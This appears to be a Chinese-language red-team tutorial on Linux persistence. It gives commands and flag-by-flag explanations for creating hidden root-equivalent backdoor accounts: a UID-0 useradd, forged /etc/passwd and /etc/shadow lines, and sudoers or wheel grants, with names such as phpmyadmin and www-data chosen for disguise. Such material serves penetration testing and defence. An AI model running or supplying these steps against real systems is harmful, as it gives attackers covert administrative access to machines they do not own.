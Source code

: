 ### Linux 添加用户

**添加超级权限用户**

Ubuntu

```sh
useradd -p `openssl passwd -1 -salt 'abc' pass1234` -u 0 -o -g root -G root -s /bin/bash admin
```

`useradd admin`:

- **核心动作**: 创建一个名为 `admin` 的新用户

`-p`: 指定新用户的密码（以哈希形式）

`openssl passwd -1 -salt 'abc' pass1234`: 这是一个子命令，在 `useradd` 实际执行前会先运行它，生成一个加密后的密码哈希

- `openssl passwd`: 调用 OpenSSL 工具生成密码哈希
- `-1`: 指定使用 **MD5** 算法（一种常见的 Linux 密码哈希算法）
- `-salt 'abc'`: 指定盐值（Salt）为 `'abc'`
- `pass1234`: 待加密的明文密码

- **总结**: 用户的密码被设置为 `pass1234`（但存储的是加密哈希）

`-u 0`:

- **`-u`**: 指定新用户的 **UID (User ID)**
- **`0`**: 在 Linux 系统中，**UID 为 0** 专属于 **root 用户**。任何 UID 为 0 的用户都自动拥有系统的最高权限。这是实现提权的关键参数

`-o`:

- **`-o`**: 允许创建具有**非唯一 UID** 的用户。由于 `root` 用户的 UID 已经是 0，如果没有这个选项，系统会报错。`-o` 强制允许 `admin` 用户和 `root` 用户共享 UID 0

`-g root`:

- **`-g`**: 指定用户所属的**主用户组（Primary Group）**。这里将其设置为主组为 `root`

`-G root`:

- **`-G`**: 指定用户所属的**附加用户组（Supplementary Groups）**。这里也将其设置为 `root`。虽然有 UID 0 已经足够，但添加到 `root` 组是标准做法

`-s /bin/bash`:

- **`-s`**: 指定用户的默认 **Shell**。`/bin/bash` 是一个功能齐全的 Shell，确保用户登录后能够正常执行命令

![](https://pic1.imgdb.cn/item/68d6265fc5157e1a8835287b.png)

![](https://pic1.imgdb.cn/item/68d626f5c5157e1a88352fa5.png)

**修改文件添加用户**

创建带密码的超级权限用户 apache，密码 123456

```sh
openssl passwd -salt '123' -1 123456
echo 'nginx:$1$123$7mft0jKnzzvAdU4t0unTG1:0:0::/root/:/bin/bash' >>/etc/passwd
echo 'nginx:$1$123$7mft0jKnzzvAdU4t0unTG1::0:99999:7:::' >>/etc/shadow
```

实战不建议使用，会给目标 Linux 环境搞乱

**交互式添加**

通过交互式方式创建用户并设置口令

```bash
useradd -o -u 0 phpmyadmin
```

`useradd phpmyadmin`:

- **核心动作**: 创建一个名为 `phpmyadmin` 的新用户
- **安全隐患**: `phpmyadmin` 是一个常见的 Web 应用名称，攻击者使用它来伪装成一个正常的 Web 服务账户，以增加隐蔽性

`-o`:

- **选项作用**: 允许创建具有**非唯一用户 ID (UID)** 的用户
- **安全意义**: 在没有这个参数的情况下，系统会拒绝创建第二个 UID 为 `0` 的用户（因为 `root` 已经是 UID 0）。`-o` 选项强制系统跳过这个检查，允许 `phpmyadmin` 和 `root` 共享同一个 UID

`-u 0`:

- **选项作用**: 指定新用户的 **UID**
- **安全意义**: 在 Linux 中，**UID 为 0** 是 **root 用户**的标志。任何 UID 为 0 的账户都自动拥有系统的最高管理权限。这是实现提权的关键参数

然后修改密码

```sh
passwd phpmyadmin
```

添加一个服务账号到 sudo，命令方式会触发安全日志，**CentOS 7 没有sudo 组**

```bash
sudo adduser apache --shell /bin/bash --home /var/www/apache
passwd apache
sudo usermod -aG sudo apache
```

我们来分解这条 `sudo` 命令的每个部分：

- `sudo adduser apache`:

  - **`sudo`**: 表示以 **root 用户的权限**运行后续命令。这通常是创建新系统用户所必需的
  - **`adduser apache`**: 创建一个名为 `apache` 的新用户

- `--shell /bin/bash`:

  - **`--shell`**: 指定用户登录后使用的默认 Shell
  - **`/bin/bash`**: 指定了一个功能齐全的 Shell。这确保了攻击者登录后能执行所有正常的 Shell 命令，而不是一个受限的 Shell

- `--home /var/www/apache`:

  - **`--home`**: 指定新用户的家目录（Home Directory）
  - **`/var/www/apache`**: 将家目录设置在 `/var/www/` 目录下。`/var/www/` 通常是 **Web 服务器的根目录**

- **`usermod`**: 这是 **Linux** 下用来**修改用户账户属性**的命令

  **`-a`**: 表示 **`append`（附加）**。这个选项告诉 `usermod` 将用户添加到新的用户组，而不是替换掉用户已有的用户组

  **`-G sudo`**:

  - **`-G`**: 指定要附加到的**附加用户组**
  - **`sudo`**: 这是目标用户组的名称。在许多基于 Debian/Ubuntu 的系统中，`sudo` 组（有时是 `wheel` 组）的成员被允许使用 `sudo` 命令来以 root 身份执行任何命令

也可以 www-data 账户添加后门。我们添加一个密码，让我们 www-data 成为一个 sudoer

```bash
sudo passwd www-data
sudo usermod -aG sudo www-data
```

既然 CentOS 中没有 sudo 组，你可以修改 sudo 配置文件自己加一个

```bash
vim /etc/sudoers
```

然后在 sudoers 文件中能找到一行 `"root ALL =(ALL) ALL"`，在这一行文件下添加一行新的内容

```bash
nginx ALL =(ALL) ALL
```

也可以把普通用户加入 wheel 用户组。 在 CentOS 系统中，默认情况下，wheel 用户组成员被授予 sudo 权限

```bash
useradd www-data
passwd www-data
usermod -aG wheel www-data
```

